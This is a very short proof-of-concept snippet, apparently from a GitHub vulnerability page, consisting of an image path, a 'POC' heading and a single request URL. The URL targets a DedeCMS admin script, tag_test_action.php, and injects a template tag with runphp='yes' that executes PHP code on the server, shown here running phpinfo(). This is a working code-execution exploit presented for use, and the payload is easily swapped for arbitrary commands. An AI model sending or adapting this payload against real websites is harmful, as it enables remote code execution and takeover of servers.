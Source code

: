 POC
---

    http://localhost/后台地址/tag_test_action.php?url=a&token=&partcode={dede:field name='source' runphp='yes'}phpinfo();{/dede:field}